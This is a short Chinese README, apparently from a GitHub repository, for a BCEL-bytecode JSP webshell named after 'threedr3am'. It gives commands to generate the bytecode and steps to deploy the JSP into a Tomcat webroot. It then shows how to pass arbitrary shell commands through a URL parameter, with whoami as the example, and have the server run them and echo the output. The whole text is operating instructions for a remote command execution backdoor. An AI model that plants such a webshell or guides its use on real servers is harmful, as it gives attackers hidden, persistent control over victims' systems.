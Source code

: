 ### BCEL字节码的JSP Webshell

生成BCEL字节码：
```
javac Threedr3am.class
java Threedr3am
```

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问1.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/1.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```